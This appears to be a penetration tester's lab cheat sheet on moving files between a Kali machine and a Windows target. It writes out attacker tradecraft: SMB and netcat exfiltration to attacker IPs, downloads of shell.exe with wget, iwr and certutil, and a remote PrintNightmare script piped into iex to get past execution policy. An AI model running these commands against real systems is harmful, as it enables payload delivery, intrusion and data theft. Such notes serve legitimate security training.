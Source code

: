 from windows back to my kali linux
on kali run
```
smbserver.py smb share/ -smb2support
```
on windows, run:
```
net use \\192.168.49.109\smb
```
then copy the file
```
copy .\mimi_allyouneed101.txt \\192.168.49.109\smb\mimi_allyouneed101.txt
```

wget
```
wget http://10.10.14.169/shell.exe -o s.exe
```

iwr
```
iwr -uri http://10.10.14.169/shell.exe -o s.exe
```

```
certutil -split -urlcache -f http://192.168.49.109/chkaccess.exe C:\\Users\\rudi.davis\\Desktop\\chkaccess.exe
```

if wget doesn't work because IE engine isn't availablem, use `curl` with parameter:
```
curl 10.10.14.6/CVE-2021-1675.ps1 -UseBasicParsing | iex
```
- `-UseBasicParsing` allows the file to come back without IE
- `iex` imports (or runs) the script 
	- useful if can't import/run a script when transferred via other means because of execution policy and `powershell -ep bypass` doesn't work

### NC
```
nc -lnvp 443 > 16162020_backup.zip
```
- run on kali
```
md5sum 16162020_backup.zip
```
- checksum on remote machine before transferring
```
cat 16162020_backup.zip | nc 10.10.14.191 443
```
- on remote machine to initiate the transfer
```
md5sum 16162020_backup.zip
```
- checksum on kali to make sure matches